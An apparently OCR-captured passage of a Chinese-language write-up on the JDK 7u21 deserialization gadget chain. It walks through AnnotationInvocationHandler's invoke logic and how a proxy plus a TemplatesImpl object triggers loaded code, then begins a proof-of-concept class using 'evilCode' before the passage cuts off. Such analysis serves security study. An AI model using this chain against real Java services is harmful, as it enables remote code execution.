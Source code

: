 ```java
                    } catch (IllegalAccessException var12) {
                        throw new AssertionError(var12);
                    }
                }

                if (!memberValueEquals(var7, var8)) {
                    return false;
                }
            }

            return true;
        }
    }

```

获取`this.type`的所有方法

![image-20220928161421996](img/image-20220928161421996.png)

`invoke`就遍历不断调用所有的方法

```java
if (var9 != null) {
    var8 = var9.memberValues.get(var6);
} else {
    try {
        var8 = var5.invoke(var1);
```

所有说如果让`this.type`是`TemplatesImpl`的类的话，就自然会调用到`newTransformer`或者`getOutputProperties`。而`invoke`的那个参数var1也就是调用方法的对象了，所以var1需要是我们构造的恶意的`TemplatesImpl`对象。这样就可以触发`TemplatesImpl`的那条链子。



结合动态代理，`proxy`调用方法时，就会进入`AnnotationInvocationHandler`类的`invoke`函数,后面就是上面的流程了

```java
package jdk721;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;

import javax.xml.transform.Templates;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class jdk {
    public static void main(String[] args) throws Exception{
        byte[] evilCode = SerializeUtil.getEvilCode();
        TemplatesImpl templates =new TemplatesImpl();
```